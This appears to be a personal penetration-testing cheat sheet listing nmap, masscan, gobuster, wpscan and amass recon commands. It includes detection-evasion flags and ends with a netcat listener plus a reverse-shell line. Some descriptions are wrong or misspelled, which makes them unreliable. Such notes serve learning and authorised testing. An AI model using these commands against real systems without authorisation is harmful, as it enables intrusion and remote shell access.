 All commands and links i need to sort.  


Recon
Find Vuln
Exploit
Evlate 
Repeat
ZAP better then burp

nmap -sn 192.168.0.1/24 - scans network for all hosts
nmap -sV <ip> - does a service scan on a target ip
nmap --script vuln <ip> - does a quick vulnerability scan on a host
namp -A <ip> - does a deep scan for everything above.
other options -f (fragment, make it harder for detection), --source 53 (make it appear as if coming from dns port), 

masscan 192.168.0.1/24 -p0-65535 --rate=10000 - scans network for all hosts, but fast
masscan 192.168.0.1/24 -p23 --rate=1000 - does a quick scan for all telnet open
other options --randomize-hosts (dont scan in order) 

curl -u http://website - display website header and info

gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories

sublist3r -d http://website - enumerates subdirectories

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token) 

amass enum -d domain --passive - gives XXXX

nc -lvp 1337
nc -e /bon/sh ip 1337  
